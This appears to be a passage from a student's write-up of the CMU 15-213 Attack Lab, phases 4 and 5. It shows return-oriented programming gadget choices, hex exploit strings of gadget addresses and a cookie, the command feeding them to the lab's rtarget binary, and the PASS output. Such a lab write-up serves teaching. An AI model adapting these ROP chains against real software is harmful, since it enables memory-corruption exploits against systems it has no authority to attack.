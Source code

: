 we can use `popq` to make the value of stack to `%rax`(because the encoding of `popq %rax` is `58`), then we shoud exec `movq %rax, %rdi`, which encoding is `48 89 c7`.

Then, following functions are we needed.

- `addval_219` or `getval_280`
- `addval_273` or `setval_237` or `setval_426`

And then, we shoud input these address, for example, we selected `getval_280` and `setval_426`, then the result should be:

- in function `getval_280`, the needed address begin  `4019cc`.
- in function `setval_426`, the needed address begin  `4019c5`.

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

Then, run command `cat result4.txt | ./hex2raw | ./rtarget -q`, the output is:

```txt
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Phase 5

Similar with Phase 4, and the result is:

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
20 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
